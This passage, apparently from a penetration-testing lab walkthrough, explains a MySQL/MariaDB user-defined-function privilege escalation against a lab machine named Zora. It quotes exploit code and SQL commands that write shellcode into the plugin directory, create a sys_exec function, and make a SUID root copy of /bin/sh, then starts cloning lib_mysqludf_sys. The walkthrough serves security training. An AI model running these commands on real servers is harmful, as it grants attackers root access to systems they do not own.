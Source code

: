 ```
105  res = subprocess.check_output(cmd, shell=True);
...
110  if res:
111          print "sys_exec was found: %s" % res
112          print "Generating a suid binary in /tmp/sh..."
113          os.system('mysql -u root -p\'' + password + '\' -e "select sys_exec(\'cp /bin/sh /tmp/; chown root:root /tmp/sh; chmod +s /tmp/sh\')"')
114
115          print "Trying to spawn a root shell..."
116          pty.spawn("/tmp/sh");
```

The first thing we notice is a shellcode variable defined on lines 40-45. The SQL query at line 71 obtains the plugin directory (remember this is the variable that we found was not standard on Zora). Next, on line 92, the code dumps the shellcode binary content into a file within the plugin directory. Line 101 creates a function named _sys_exec_ leveraging the uploaded binary file. Finally, the script checks if the function was successfully created on line 104 and if this is the case, the function is executed on line 113. Reading a bit more about the MySQL _CREATE FUNCTION_ syntax suggests that the binary content of the shellcode variable is supposed to be a shared library that implements and exports the function(s) we want to create within the database.

Essentially, this entire script is only running five commands. If we trim down the code to its essential MySQL commands, we obtain the following:

```
select @@plugin_dir
select binary 0xshellcode into dumpfile @@plugin_dir;
create function sys_exec returns int soname udf_filename;
select * from mysql.func where name='sys_exec' \G
select sys_exec('cp /bin/sh /tmp/; chown root:root /tmp/sh; chmod +s /tmp/sh')
```

Since we already have an interactive MariaDB shell, we could theoretically run these commands directly in the MariaDB shell against Zora. However, we want to make sure we understand what we are about to execute before proceeding.

# Exploitation

### Attempting to Exploit the Database

While the individual commands give us no reason for concern, we have no idea what the shellcode is doing. Instead, we will replace the shellcode with something that we are in control of. The references in the exploit state that raptor_udf.c was used. A quick Google search reveals a relevant Exploit Database entry and a note at the bottom of the comments mentions a GitHub project that looks very promising.

Let's download the code, review it, and compile it.

```
kali@kali:~$ git clone https://github.com/mysqludf/lib_mysqludf_sys.git
Cloning into 'lib_mysqludf_sys'...
...

kali@kali:~$ cd lib_mysqludf_sys/
kali@kali:~/lib_mysqludf_sys$ 
```
